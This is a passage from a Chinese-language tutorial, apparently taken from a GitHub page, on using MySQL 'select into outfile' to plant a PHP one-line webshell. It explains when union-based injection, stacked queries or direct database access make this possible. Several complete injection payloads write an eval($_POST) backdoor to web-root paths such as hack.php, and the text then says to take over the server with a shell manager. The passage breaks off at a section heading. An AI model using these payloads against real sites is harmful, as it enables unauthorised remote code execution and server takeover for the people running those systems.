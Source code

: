 4.（1）能够使用union 。（需要mysql 3以上的版本）这个条件是在url里才需要，如果直接登录进别人的数据库，那么就不需要能够使用union了

```php
例子：
?id=1 union select '<?php @e val($_POST['c']);?>' into outfile "C:/phpStudy/WWW/a.php"

?id=1')) UNION SELECT 1,2,'<?php @e val($_POST["v"]);?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\hack.php" --+
```

（2）或者有堆叠注入，就可以直接`?id=1;select '<?php @e val($_POST['c']);?>' into outfile "C:/phpStudy/WWW/a.php"`这样执行了。

不过首先要想有堆叠注入的条件，源码中必须要用到`mysqli_multi_query()`，那么我们此处就可以执行多个sql语句进行注入。一般后台查询数据库使用的语句都是用`mysql_query()`，所以堆叠注入在mysql上不常见。`mysqli_multi_query()`可以执行多个sql语句，而`mysqli_query()`只能执行一个sql语句。

堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

（3）再者就是已经成功登录到别人的数据库里了，直接执行`select '<?php @e val($_POST['c']);?>' into outfile "C:/phpStudy/WWW/a.php"`

5.对方没有对`'`和`"`进行过滤,因为outfile后面的物理路径必须要有引号

所以，要满足这几个条件还是蛮高难度的。

如果都满足，写入成功了，那么就可以用shell管理工具进行Getshell了

MySQL写入数据select into outfile一句话木马用法
-----------------------------------

例子：直接登录进别人的数据库的时候：

```php
SELECT "<?php @e val($_POST['xiaohua']); ?>"
INTO OUTFILE '/tmp/test1.php'
```

在url里要用union：

```php
例子：
?id=1 union select '<?php @e val($_POST['c']);?>' into outfile "C:/phpStudy/WWW/a.php"

?id=1')) UNION SELECT 1,2,'<?php @e val($_POST["v"]);?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\hack.php" --+
```

或者堆叠注入：

```php
?id=1');SELECT '<?php @e val($_POST["v"]);?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\hack.php";--+
```

注意
--

其中路径里的`\`用`\\`或者`/`代替，因为`\`的话会消失一个

过程
--
